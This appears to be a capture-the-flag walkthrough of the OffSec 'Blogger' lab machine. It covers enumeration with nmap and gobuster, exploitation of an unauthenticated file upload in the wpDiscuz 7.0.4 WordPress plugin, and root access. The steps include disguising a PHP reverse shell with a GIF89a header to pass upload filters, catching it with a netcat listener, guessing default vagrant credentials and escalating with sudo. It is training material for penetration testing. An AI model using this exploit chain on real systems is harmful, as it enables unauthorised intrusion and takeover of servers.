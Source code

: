 ```yaml
---
title : "Blogger - Walkthrough"
date : 21-10-2024 02:00:00
tags : [Offsec-Play, OSCP]
---
```


## Summary

In this guide we will exploit an arbitary file upload in the `wpDiscuz version 7.0.4` plugin and obtain root access with a simple and straightforward method of privilege escalation.

## Enumeration

We begin the enumeration process with an `nmap` scan.

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.120.183            

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-05 04:19 MST
Nmap scan report for 192.168.120.183
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.40 seconds
```

We see ports `22` and `80` open on the target.

Navigating to port `80` we see the following static webpage.

![Home](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_1_Dx3Rt6YL.png)

Home

Turning our attention to content discovery, we bruteforce directories with `gobuster`.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.120.183/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.120.183/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/04 07:37:35 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 319] [--> http://192.168.120.183/images/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.120.183/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.120.183/css/]   
/js                   (Status: 301) [Size: 315] [--> http://192.168.120.183/js/] 
```

Navigating to the `assets` directory, we find a `blog` directory in the `assets/fonts` path which reveals a `wordpress` site.

![wp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_2_Qazx16L9.png)

wp

During our enumeration we skim through the source code of any blog post and see that the site uses the `wpDiscuz version 7.0.4` plugin.

```
┌──(kali㉿kali)-[~]
└─$ curl http://blogger.pg/assets/fonts/blog/?p=29
<!DOCTYPE html>
<html lang="en-US">

<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="profile" href="http://gmpg.org/xfn/11">
<link rel="pingback" href="http://blogger.pg/assets/fonts/blog/xmlrpc.php">
......
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

After researching the `wpDiscuz version 7.0.4` plugin we see that it is vulnerable to an `Unauthenticated Arbitrary File Upload`.

Navigating to the comment section of any blog post, we see an upload form that accepts images.

![comment section](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_3_AL1Fg1KX.png)

comment section

As the comment section includes an upload form for images, we can attempt to upload a reverse shell in the `GIF89a` format, as it is common for any image upload functionality to allow GIFs as well.

We begin by grabbing a copy of a reverse shell to upload to the target, we will use the `php-reverse-shell.php` installed on kali by default.

```
┌──(kali㉿kali)-[~/blogger]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

We can add `GIF89a;` to the beginning of our `php-reverse-shell` to bypass any filters.

```
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

Next, we set up up a listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
```

Now we navigate to the comment section of any blog post, and attach our `php-reverse-shell.php` and fill in the necessary forms before submitting.

![upload](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_4_GD5ZLk7L.png)

upload

We receive a response in our listener and stabilize our shell by spawning a `python3` shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.120.150] 42538
Linux ubuntu-xenial 4.4.0-206-generic #238-Ubuntu SMP Tue Mar 16 07:52:37 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 15:39:15 up 58 min,  1 user,  load average: 0.04, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1                      14:41   57:54   0.05s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$
```

## Privilege Escalation

In the `/home` directory, we see the users `james`,`ubuntu` and `vagrant`.

```
www-data@ubuntu-xenial:/home$ ls
ls
james  ubuntu  vagrant
```

We can guess the credentials of the user `vagrant` as `vagrant:vagrant`.

```
www-data@ubuntu-xenial:/$ su vagrant
su vagrant
Password: vagrant
vagrant@ubuntu-xenial:/$
```

Running the “sudo -l” command reveals that the user `vagrant` is permitted to run all commands.

```
vagrant@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL

```

We can achieve root access by using `sudo su`.

```
vagrant@ubuntu-xenial:/$ sudo su 
sudo su 
root@ubuntu-xenial:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```